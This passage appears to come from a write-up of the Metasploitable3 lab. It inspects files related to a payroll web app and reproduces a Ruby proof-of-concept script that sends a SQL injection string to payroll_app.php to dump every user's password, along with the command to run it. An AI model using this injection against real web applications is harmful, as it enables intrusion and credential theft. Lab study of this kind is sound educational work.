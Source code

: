 A total of three search hits. Even from the naming and location, we can gather a lot of information about these:

1. `/var/lib/mysql-default/payroll`: A folder in for MySQL, most likely contains the database named _payroll_, with one or more tables.
2. `/var/www/html/payroll_app.php`: The website we performed the SQL Injection attack against. Will contain the source code, written in PHP, that powers the _Payroll App_.
3. `/home/kylo_ren/poc/payroll_app`: This one is a little strange. It is a directory in the home folder of the `kylo_ren` user. If the Star Wars movies are anything to go by, this is probably something malicious!

#### Kylo Ren's Ruby Exploit

It would make the most logical sense to start with the PHP source code for the website... However, I am fascinated by what is in `kylo_ren`s home folder. A quick listing of the folder revealed one file called: `poc.rb`, that had the following contents:

```ruby
require 'net/http'

url  = "http://127.0.0.1/payroll_app.php"
uri  = URI(url)
user = 'luke_skywalker'
injection = "password'; select password from users where username='' OR ''='"

puts "Making POST request to #{uri} with the following parameters:"
puts "'user' = #{user}"
puts "'password' = #{injection}"
res = Net::HTTP.post_form(uri, 'user' => user, 'password' => injection, 's' => 'OK')

puts "Response body is #{res.body}"
puts "Done"
```

Considering that Kylo is neck-deep in the dark side, it comes as no surprise he has a malicious Ruby script that attacks the _Payroll App_ website. The script automates a similar attack to what we performed earlier. Kylo uses the username `luke_skywalker` and a password that is a SQL injection attack. The actual SQL Injection entered is:

```none
password'; select password from users where username='' OR ''='
```
Comparing this to the initial attack we performed early is interesting. It also revealed some more useful information about the SQL Injection vulnerability. Turns out, an attacker can enter any username and password combination on the page and review results. I initially thought that a user would have to authenticate (with username and password) before any information was displayed. Turns out that the web application returns an empty table when the incorrect username and password are entered. Interesting.

Anyway, the resultant output of the attack lists all the passwords for the users in the database. However, it does not list the username next to the password, so some guessing and/or correlation needs to be performed. To run the script, use the following command:

```none
leia_organa@metasploitable3-ub1404:/home/kylo_ren/poc/payroll_app$ ruby poc.rb 
```
